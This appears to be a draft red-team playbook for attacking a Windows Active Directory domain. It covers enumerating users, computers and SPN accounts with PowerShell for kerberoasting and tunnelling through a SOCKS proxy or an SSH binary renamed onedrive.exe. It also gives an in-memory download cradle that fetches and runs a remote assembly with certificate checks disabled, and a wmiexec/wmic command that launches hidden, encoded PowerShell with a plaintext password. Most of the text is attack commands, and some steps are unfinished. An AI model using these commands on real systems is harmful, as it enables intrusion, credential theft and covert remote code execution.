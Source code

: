 # Advanced Enumeration

On the System:

1. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

1. Now that we have fully interactive access in the PowerShell runspace, we will enumerate the IT domain for potential targets. To ensure the commands are executed under a Kerberos authenticated context, use the `[runas.program]` class pre-loaded into the bindshell. The convention for authenticated commands is `[runas.program]::netonly(("<domain>","<username>","<password>","<command>"))`. All other commands will be executed from the local context of the process. 

```
"([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"

([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json
```

1. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  

```
[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams
```
---------------tested to here for enumeraiton-------------

<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```

## Proxy Based Domain Enumeration:

6to4 proxy: Creates A rule.

or SSH Reverse Proxy. 

In a console: 
1. copy c:\Windows\system32\openssh\ssh.exe C:\ProgramData\onedrive.exe
2. C:\ProgramData\onedrive.exe <tunnel commands>
3. 


2. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```powershell
'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'
```


```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'
```
